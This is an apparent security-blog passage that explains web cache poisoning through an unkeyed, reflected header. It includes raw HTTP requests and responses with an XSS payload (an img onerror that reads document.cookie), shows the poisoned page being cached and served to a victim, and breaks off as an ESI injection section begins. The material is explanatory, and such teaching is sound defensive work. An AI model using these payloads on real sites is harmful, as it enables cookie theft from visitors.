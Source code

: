   

### Web Cache Poisoning Attack

On the other side, the “**Web Cache Poisoning Attack**” objective is to **add malicious code** inside a vulnerable web page and **aim the attack** at a specific victim since the attacker would know the exact cache keys used to **store** the malicious web page.  
  
This attack was firstly documented by James Kettle in 2018 and presented at Black Hat in the same year.  
  
Within this scenario, the targeted web page is identified with a specific “_cache key_” which could be, for instance, a **nonexistent URL parameter value** on a specific path. Indeed, the attacker-controlled web page will be cached on this specific nonexistent parameter value.  
Moreover, while in the “_Web Cache Deception_” scenario it is necessary to detect a vulnerable file extension, this attack also requires the interaction of the web page with a header parameter that is not used as key by the caching server.  
  

For instance, suppose that a malicious user discovers through the BurpSuite extension “Param Miner” the hidden “**X-Origin-URL**” header which is **reflected** in the response web page and it is **not used as cache-key**. This header represents an entry point able to exploit a **Cross-Site Scripting** vulnerability, as shown in the following request.  
  
Request:

|   GET /home/private/projections?insurance=not\_existing HTTP/1.1  Host: vulnerable-host.com  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86\_64; rv:81.0) Gecko/20100101 Firefox/81.0  Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3  Accept-Encoding: gzip, deflate  X-Origin-URL: “><img src=x onerror=alert(document.cookie)><!-- |
| --- |

  

 Response:   

|   HTTP/1.1 200 OK  Content-Type: text/html  Connection: close  X-Cache: MISS  Content-Length: 3114      \[ . . . \]  <img src=””><img src=x onerror=alert(document.cookie)><!--/img/bank\_logo.png”><br>  \[ . . . \]   |
| --- |

  

Once the victim user visits the resource with the arbitrary URL parameter value controlled by the malicious user:  

- _“vulnerable-host.com/home/private/projections?insurance=not\_existing”_

The **cached response** with the **XSS payload** is returned to the victim user, exploiting successfully the Cache Poisoning attack.  
  
Request:   

|   GET /home/private/projections?insurance=not\_existing HTTP/1.1  Host: vulnerable-host.com  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86\_64; rv:81.0) Gecko/20100101 Firefox/81.0  Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3  Accept-Encoding: gzip, deflate   |
| --- |

   
Response:   

|   HTTP/1.1 200 OK  Content-Type: text/html  Connection: close  X-Cache: HIT  Content-Length: 3114      \[ . . . \]  <img src=””><img src=x onerror=alert(document.cookie)><!--/img/bank\_logo.png”><br>  \[ . . . \]   |
| --- |

  
A different scenario regards the “**_Edge Side Includes_**” (_ESI_) _**tag injection attack**_ when reverse proxies, load balancers, caching servers or proxy servers (for instance, _“Squid Proxy”, “Varnish”, “Oracle WebLogic”, “F5” and “Fastly”_) are involved in a communication.  
  